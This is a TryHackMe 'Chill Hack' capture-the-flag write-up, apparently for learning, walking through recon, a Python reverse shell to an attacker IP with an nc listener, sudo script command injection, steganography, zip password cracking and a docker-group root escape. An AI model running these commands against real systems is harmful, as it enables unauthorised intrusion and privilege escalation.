# TryHackMe – Chill Hack Write-up

#### Nmap Scan
```bash
 nmap -sV -A 10.48.159.15
 ```



#### ftp Access
```bash
ftp 10.48.159.15
```
 username anonymous 
 passsword anonymous

 

##### Downloading FTP Files
```bash
 get note.txt
 cat note.txt 
 ```
 

usernames : Anurodh, Apaar

#### Directory Enumeration
```bash
gobuster dir -u http://10.48.159.15 -w /usr/share/wordlists/dirb/common.txt 
```
```bash
firefox http://10.49.191.211/secret/
```



#### Reverse shell
##### Setting Up a Listening Service on Port 9001
```bash
nc -lvnp 9001
```
##### Reverse Shell Payload Using Python 
```bash
export RHOST="192.168.157.221";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

use https://www.revshells.com/





#### Privilege escalation (www-data → apaar)
```bash
sudo -l
```


```bash
cat /home/apaar/.helpline.sh
```


read msg takes user input , $msg is executed as a command
```bash
sudo -u apaar /home/apaar/.helpline.sh
```


```bash
/bin/bash
```


#### Privilege escalation (www-data → Anurodh)
##### Pivoting Back www-data


```bash
cat hacker.php
```





##### Steganography

```bash
python3 -m http.server 
```


```bash
wget http://10.49.191.211:8000/002d7e638fb463fb7a266f5ffc7ac47d.gif
```


```bash
wget http://10.49.191.211:8000/hacker-with-laptop_23-2147985341.jpg
```


```bash
steghide info hacker-with-laptop_23-2147985341.jpg
```


```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
```


##### Cracking the Backup Archive
```bash
unzip backup.zip
```


```bash
zip2john backup.zip > zip.hash
```
```bash
john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
```


```bash
unzip backup.zip
```
password: pass1word 


```bash
 cat source_code.php 
 ```


```bash
 echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d 
 ```




####  Privilege escalation (Anurodh → root)
##### SSH access (Anurodh)
```bash
ssh anurodh@10.49.191.211
```
  

```bash
groups
```


```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt /bin/sh
```




```bash
cat proof.txt
```

